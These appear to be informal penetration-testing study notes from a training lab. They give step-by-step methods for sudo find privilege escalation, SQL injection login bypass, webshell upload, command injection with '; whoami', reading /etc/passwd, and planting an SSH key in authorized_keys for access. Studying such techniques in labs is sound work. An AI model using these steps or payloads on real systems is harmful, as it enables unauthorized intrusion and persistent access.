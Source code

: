         use ruby ping sweep again to scan the same network from that box to see if that box can see something the other box couldn't.
    **the round sensor box wanted us to privilege escalate**
        we run sudo -l, and we can run /usr/bin/find. 
        check GTFObins and see what we can do with find.
        copy the sudo find priv esc thing from gtfobins and run it. escalated.
    - we created another dynamic and nmap scan the next box. its a windows box with 3389/9999 open.
        we banner grab 9999 port, and see that its secure server.
    - go ahead and open tunnels to the ports that you think you're going to need.
        9999, 3389 etc.
        Because 9999 is open, we can use our overflow script that we created previously.
        because we've used this before, we'll have to change the IP / port that we're sending it to. It'll be through our loopback on whatever tunnel we connected to 9999.

## Review

    **authentication bypass**
        if you see login fields, attempt to bypass. bob' OR 1='1 -> login -> inspect -> network, reload page and click on the post, get the raw request -> add a ? to the end of php, then paste that raw request behind it.

    **malicious file upload**
        check robots.txt (don't forget http enum scan -> nmap -Pn -sT --script=http-enum.nse *targ ip*) this scan will show you robots.txt or uploads or something. that script shows WEB DIRECTORIES.
        - we found the uploads folder. You need a place to upload, you need the file to upload(webshell.php in downloads), and need a vulnerable server to accept it, and a way to find it. (uploads web directory)
        - go to the uploads folder, then click on your executable, then you've got a shell.

    **command injection** (input field that lets you enter something "system to ping" ex.
        - ex: input field wanted us to ping an ip, so we do "127.0.0.1 ; whoami" or you can just start with a semi colon, then run your command after it. ex: ; whoami
        - if you come across multiple on the same page, test all of them.

    **SSH key upload**
        - cd .ssh , then ls 
        - file id_rsa | id_rsa.pub to verify what they are.
        - pubic key is the one that gets uploaded.
        - cat id_rsa.pub (copy all of it)
        - go back to your input field -> ; whoami (www-data) 
        - cat /etc/passwd to find the users home directory.
        - go back to the input field. -> ; ls -lisa /var/www -> mkdir /var/www/.ssh -> run ls command again.
        - then ; echo "" > /var/www/.ssh/authorized_keys (put your public key between the quotes).
        - then ; cat /var/www/.ssh/authorized_keys (to make sure it uploaded)
        - then ssh into the box. ssh -i id_rsa www-data@10.50.32.44
        **you might find a private key hidden in a directory somewhere** if you do, save this key and name it something, go to that directory, then use the ssh -i command to ssh in as that user (with their username)

    **exe replacement**
        - try to rename, create a file etc.
